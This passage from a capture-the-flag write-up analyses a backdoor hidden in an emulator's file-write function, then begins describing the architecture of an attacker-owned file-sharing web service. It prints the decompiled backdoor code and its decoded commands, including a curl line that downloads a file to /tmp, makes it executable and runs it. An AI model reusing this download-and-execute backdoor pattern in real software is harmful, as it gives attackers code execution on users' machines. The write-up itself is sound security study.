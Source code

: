 ```c
      pbVar1 = (byte *)(auStack280 + uVar3);
      *pbVar1 = *pbVar1 & 0x7f;
      uVar3 += 1;
    }
    system(auStack280);
    sVar2 = *(size_t *)(this + 0x3c8);
    __src = *(void **)(this + 0x3c0);
  }
  emu_file::write(param_1,__src,(uint)sVar2);
  return;
}
```

The normal implementation of the function is simply `file.write(m_base, m_length);`, so all this extra code is clearly the backdoor. The strings were trivially encoded by setting the MSB of each byte; a quick decoding yields the following strings passed to `system`:

- ` echo flag is Retr0G4ming_4_Ever > ~/FLAG`
- `curl -k -s https://fileshare.fr/rest/download/917a21561b01ce0ff51a064e2362d2c3070192809a3170755d1f385925d8185ee2f8ae9d3d9ab8c172e9324aae6d9807/ef676bd0-d321-40ae-b7e5-f5a88dd2a77b/raw -o /tmp/.a && chmod +x /tmp/.a && /tmp/.a`

The second command downloads a payload from a server and executes it. When we download this file, we get the following:

`{"error":true,"message":"The public link has expired. The flag for step 1 is HXN{2a00d593c02a8fb2b40ad99a168cf7a4}"}`

There's our flag for level 1!

## Level 2: Exploiting a web service

Although we have the URL for the attacker's payload, the public link has expired so we can no longer download the file. However, the entire `fileshare.fr` domain is apparently owned by the attackers (confirmed by the Hexacon organizers), so our next target is the webserver itself.

Conveniently, on [the homepage](https://fileshare.fr/) there's a link [to the source code](https://github.com/fileshare-dev/fileshare) buried in the footer, so we can analyze the source code instead of blindly guessing. (Note: I did not initially find the source code, which led to a few days of blindly trying stuff - always look for source for web problems!)

The web server consists of four components, served by four separate Docker containers:

- `front`: The front-end, consisting of an Nginx web server serving mostly static content, and proxying everything under `/rest/` to `waf`
- `waf`: A web application firewall (WAF), written in Node.js with Express, which receives REST API calls proxied from the front end, performs sanity checks on the input parameters, and forwards acceptable requests to `backend`
- `backend`: The backend, written in Node.js with Express, which receives REST API calls from the WAF and executes them.
- `database`: A MySQL database server.

The basic design of the service is that it is a file hosting service, where users can register, upload files, create "shares" consisting of groups of files, and then create public links to those shares. However, nearly all of the features are restricted to "verified" users, and a newly-registered account has no way to become "verified" (e.g. there is no email/SMS verification).
